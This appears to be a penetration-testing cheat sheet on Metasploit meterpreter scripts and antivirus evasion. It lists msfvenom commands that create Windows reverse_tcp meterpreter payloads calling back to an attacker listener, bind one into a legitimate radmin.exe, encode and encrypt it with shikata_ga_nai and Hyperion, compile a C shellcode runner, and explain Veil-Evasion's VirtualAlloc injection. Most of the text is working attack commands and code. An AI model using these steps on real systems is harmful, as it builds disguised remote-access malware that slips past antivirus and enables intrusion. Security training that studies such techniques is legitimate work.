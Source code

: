 # Scripts that can be run in an open session

/usr/share/metasploit-framework/scripts/meterpreter

# AutoRunScript
# PrependMigrate
# SessionCommunicationTimeOut

# Bypassing Anti-virus

### Packing

/usr/share/windows-binaries/

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9
LPORT=2345 -x /usr/share/windows-binaries/radmin.exe -k -f exe > radmin.exe
```

### Encoding

`msfvenom -l encoders`

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9
LPORT=2345 -e x86/shikata_ga_nai -i 10 -f exe > meterpreterencoded.exe
```

### Custom Cross Compilation

Generate shellcode with:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9
LPORT=2345 -f c -e x86/shikata_ga_nai -i 5
```

Generate random string with:
```
cat /dev/urandom | tr -dc A-Z-a-z-0-9 | head -c512
```

```
#include <stdio.h>
unsigned char random[]= "s0U...";
unsigned char shellcode[]= "\xfc\xe8...";
int main(void)
{
((void (*)())shellcode)();
}
```

```
i586-mingw32msvc-gcc -o custommeterpreter.exe custommeterpreter.c
```

### Encrypting Executables with Hyperion

```
wine ../hyperion ../meterpreter.exe bypassavhyperion.exe
```

### Evading Antivirus with Veil-Evasion

#### VirtualAlloc injection method

* Python `Ctypes` library, gives us access to Windows API function calls and can create C-compatible data types.
* Use `Ctypes` to access the Windows API `VirtualAlloc`
* Creates a new executable memory region for the shellcode and locks the memory region in physical memory, to avoid a page fault as shellcode is copied in and executed.
* `RtlMoveMemory` is used to copy the shellcode bytes into the memory region created by `VirtualAlloc`.
* The `CreateThread` API creates a new thread to run the shellcode
* `WaitForSingleObject` waits until the created thread is finished and shellcode has finished running.

```
./Veil-Evasion.py
```
